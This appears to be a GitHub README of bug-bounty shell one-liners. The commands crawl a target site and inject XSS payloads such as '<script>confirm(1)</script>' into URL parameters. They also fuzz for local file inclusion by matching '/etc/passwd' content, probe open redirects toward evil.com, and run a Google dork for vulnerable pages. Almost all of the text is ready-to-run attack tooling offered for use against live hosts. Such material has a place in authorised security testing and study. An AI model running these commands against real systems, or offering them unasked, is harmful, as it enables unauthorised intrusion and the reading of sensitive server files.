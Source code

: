 # BBH-commands
One-liners for finding various vulnerabilities

# Katana webcrawler to get all the metadata
katana -u https://testphp.vulnweb.com/ -o katana.txt 

# XSS using GF patterns
cat katana.txt | gf xss | grep 'source=' | qsreplace '"><script>confirm(1)</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {Vulnerable}"; done

# LFI using GF patterns
cat katana.txt | gf lfi | tee lfi.txt
cat lfi.txt | qsreplace FUZZ | while read url; do ffuf -u $url -mr "root:x" -w /path/to/LFI_payloads.txt ; done

# Google Dork for LFI on Windows Server
site:http://example.com/ inurl:?filename= ext:aspx

# XSS with KXSS and Dalfox
cat katana.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe

# Open redirects
cat katana.txt | grep -a -i \=http | qsreplace 'http://evil.com' | while read host; do curl -s -L "$host" -I | grep "evil.com" && echo -e "$host {Vulnerable}"; done

# XSS combined fuzzing
cat katana.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {VULNERABLE}\n" || echo -e "$host {Not Vulnerable}\n"; done

# Open redirects with Bhedak
cat katana.txt | grep -a -i \=http | bhedak 'http://redirect.com' | while read host; do curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host {Vulnerable}"; done

# XSS with uro and freq
cat katana.txt | grep "=" | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
